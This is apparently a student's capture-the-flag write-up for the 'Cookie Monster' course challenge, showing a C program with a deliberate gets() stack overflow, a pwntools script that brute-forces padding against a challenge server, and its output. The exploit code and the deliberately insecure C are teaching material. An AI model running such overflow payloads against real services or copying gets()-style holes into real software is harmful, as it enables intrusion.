 ```yaml
---
title: "Tutor CTF: Cookie Monster"
description: (200 points) Binary Challenge
author: Kevin Zhu
public: true
uploadDate: 2022-04-08 23:15+11:00
lastModified: 2022-04-08 23:15+11:00
notes: ''
tags:
- capture the flag
- tutor ctf
- comp6841
menu:
  groups: []
  submenus: []
name: 31_tutorctf_cookie_monster
---
```


_Contest Source: [COMP6[84]41 CTF](https://www.comp6841.com/challenges)_

> _Note that all flags have been replaced with "COMP6841{REDACTED}". This is to discourage you from just blindly submitting the final answer, and to encourage you to follow along and learn something along the way._

## Exploration

We are given a netcat IP address and a exploitable buffer code. Let's look at it:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define BUFFER_SIZE 16
#define FLAG_SIZE 50
#define QUOTE_SIZE 4

char flag[FLAG_SIZE];
char quotes[QUOTE_SIZE][100] = {"NOT ENOUGH COOKIES", "I'M STILL HUNGRY", "MORE", "GRRR GIVE ME COOKIES"};

void oppsie(void) {
    char c1 = 1;
    char c2 = 1;
    char c3 = 1;
    char c4 = 1;
    char c5 = 1;
    char c6 = 1;
    char buffer[BUFFER_SIZE];
    gets(buffer);

    if (c1 == 'C' && c2 == 'O' && c3 == 'O' && c4 == 'K' && c5 == 'I' && c6 == 'E') {
        printf("%s\n", flag);
        fflush(stdout);
        exit(1);
    }
}

void cry(int counter) {
    printf("%s", quotes[counter % QUOTE_SIZE]);
    for (int i = counter*2; i > 0; i--) {
        printf("!");
    }
    printf("\n");
}

int main(int argc, char **argv){

    FILE *f = fopen("flag.txt","r");
    if (f == NULL) {
        printf("Missing flag.txt\n");
        exit(0);
    }

    fgets(flag, FLAG_SIZE, f);

    printf("HI, I'M THE COOKIE MONSTER AND I LOVE COOKIES\n");

    int counter = 0;
    while (1) {
        printf("Feed the cookie monster: ");
        fflush(stdout);
        oppsie();
        if (counter > 0) {
            cry(counter);
        }
        counter++;
    }
    return 0;
}
```

So right off the bat, it looks like the `oppsie` function is going to be pretty important, since if we can somehow get the variables `c1` to `c6` equal to "COOKIE", then we can get the flag. Unfortunately, we have no way of changing them from their initial values, so it seems impossible.

However, we can exploit a buffer overflow in the `gets(buffer)` line. `gets` is insecure, and does not check the size of the buffer when scanning in. This means that if we enter a string that is longer than BUFFER_SIZE (16 in this case), we will start to overflow our buffer and overwrite values in the stack. Hence, we can enter something like "AAAAAAAAAAAAAAAAEIKOOC" (16 A's, followed by COOKIE in reverse because we overwrite the variables in reverse order) in order to overwrite the next variables on the stack, which of course happen to be `c6`, `c5`, `c4`, etc.

## Bruteforcing with Pwntools

Though in reality, it's not all that simple. Because of how compilers will align variable addresses, we're not guaranteed that we need exactly 16 A's. It can be a little bit more than that. Thus, it's useful to write a script that will try all sorts of different numbers of A. `pwntools` provides a really nice tool that allows us to quickly connect to such a netcat server and brute force all the different numbers until we find one that works. Here's a very crude implementation that crashes as soon as it finds the correct number of A's:

```python
from pwn import *

conn = remote("13.210.180.94", 10001)
for i in range(16, 30):
    conn.recvuntil(b'Feed the cookie monster: ')
    s = b'A'*i+b'EIKOOC\n'
    conn.send(s)
    print(i, s)

conn.close()
```

Running it, we get:

```term
$ python3 get.py
16 b'AAAAAAAAAAAAAAAAEIKOOC\n'
17 b'AAAAAAAAAAAAAAAAAEIKOOC\n'
18 b'AAAAAAAAAAAAAAAAAAEIKOOC\n'
19 b'AAAAAAAAAAAAAAAAAAAEIKOOC\n'
20 b'AAAAAAAAAAAAAAAAAAAAEIKOOC\n'
21 b'AAAAAAAAAAAAAAAAAAAAAEIKOOC\n'
22 b'AAAAAAAAAAAAAAAAAAAAAAEIKOOC\n'
23 b'AAAAAAAAAAAAAAAAAAAAAAAEIKOOC\n'
24 b'AAAAAAAAAAAAAAAAAAAAAAAAEIKOOC\n'
25 b'AAAAAAAAAAAAAAAAAAAAAAAAAEIKOOC\n'
26 b'AAAAAAAAAAAAAAAAAAAAAAAAAAEIKOOC\n'
Traceback (most recent call last):
  File "attack.py", line 5, in <module>
    conn.recvuntil(b'Feed the cookie monster: ')
  File "/Library/Frameworks/Python.framework/Versions/3.7/lib/python3.7/site-packages/pwnlib/tubes/tube.py", line 333, in recvuntil
    res = self.recv(timeout=self.timeout)
  File "/Library/Frameworks/Python.framework/Versions/3.7/lib/python3.7/site-packages/pwnlib/tubes/tube.py", line 105, in recv
    return self._recv(numb, timeout) or b''
  File "/Library/Frameworks/Python.framework/Versions/3.7/lib/python3.7/site-packages/pwnlib/tubes/tube.py", line 183, in _recv
    if not self.buffer and not self._fillbuffer(timeout):
  File "/Library/Frameworks/Python.framework/Versions/3.7/lib/python3.7/site-packages/pwnlib/tubes/tube.py", line 154, in _fillbuffer
    data = self.recv_raw(self.buffer.get_fill_size())
  File "/Library/Frameworks/Python.framework/Versions/3.7/lib/python3.7/site-packages/pwnlib/tubes/sock.py", line 56, in recv_raw
    raise EOFError
EOFError
[*] Closed connection to 13.210.180.94 port 10001
```

Which tells us that 26 A's caused the program to exit without giving us another "Feed the cookie monster:" message. In other words, we've found the right number of A's to trigger the `oppsie` code! We can now manually enter in the correct string to get the flag, or alternately run pwntools in DEBUG mode so that it returns the final message before the program crashed.

```term
$ python3 get.py DEBUG
```
